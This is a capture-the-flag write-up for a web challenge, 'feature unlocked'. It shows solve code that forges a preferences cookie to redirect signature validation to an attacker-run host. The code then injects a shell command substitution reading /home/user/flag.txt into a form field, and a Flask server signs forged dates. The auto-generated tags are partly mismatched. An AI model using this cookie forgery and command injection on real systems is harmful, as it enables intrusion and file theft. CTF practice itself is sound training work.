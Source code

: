 ```yaml
---
ai_date: 2025-04-27 05:14:05
ai_summary: Exploited server's preference for custom validation server by modifying cookie, allowing for code execution
ai_tags:
  - http-hdr
  - xss
  - csrf
created: 2024-08-30T17:43
points: 50
solves: 184
updated: 2025-07-14T09:46
---
```


## Validation

- Calls external server for validation
- Gets public key from `/pubkey`
- Gets json data from `/`
- Basically it uses our own public key for verification
- We need to confuse the server to use our own `validation_server`
- Notice how the server will use preference's `validation_server` if debug is set?

For our own validation server we can just slightly modify the given code.

## Solve

```python [solve.py]
import base64
import json
import requests
import base64
import json

s = requests.Session()
s.cookies.set('preferences', base64.b64encode(json.dumps({
    'validation_server': 'https://tun.yun.ng/'
}).encode()).decode())
print("running..")
response = s.get("https://feature-unlocked-web-challs.csc.tf/release?debug=true")
print("running second..")
response = s.post("https://feature-unlocked-web-challs.csc.tf/feature", data={'text': '`cat /home/user/flag.txt` #'})
print(response.text)
```

```python [validation.py]
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 + 1)
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8080)
```

```flag
CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}
```